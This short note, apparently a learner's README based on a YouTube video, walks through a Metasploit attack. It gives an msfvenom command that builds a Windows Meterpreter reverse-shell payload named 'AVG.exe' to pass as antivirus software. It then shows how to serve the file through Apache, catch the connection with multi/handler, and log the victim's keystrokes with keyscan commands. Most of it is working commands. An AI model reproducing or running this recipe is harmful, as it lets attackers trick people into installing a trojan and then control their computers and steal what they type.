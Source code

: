 # Requires kali built in metasploit framework

## https://www.youtube.com/watch?v=g77XXAKc9qA

This seems like interesting project to do.
Simple enough to do it

> msfvenom -p windows/meterpreter/reverse_tcp LHOST=(your_IP) LPORT=4444 -f exe > /root/Desktop/AVG.exe

Move the file to /var/www/html
cd into /var/www/html
service apache2 start

to download the file from same network computer,
IP address/filename

Then start metasploit framework console
  > msfconsole

He mentioned there are many different exploitation method (Will have to research on this)
In this project he used multi handler
  > use exploit/multi/handler

Specify payload
  > set payload windows/meterpreter/reverse_tcp

Provide current IP to allow communication between the two
  > set LHOST {IP}

get the other machine to install and type
  > exploit

allows keylogging
  > keyscan_start
  > keyscan_stop
  > keyscan_dump
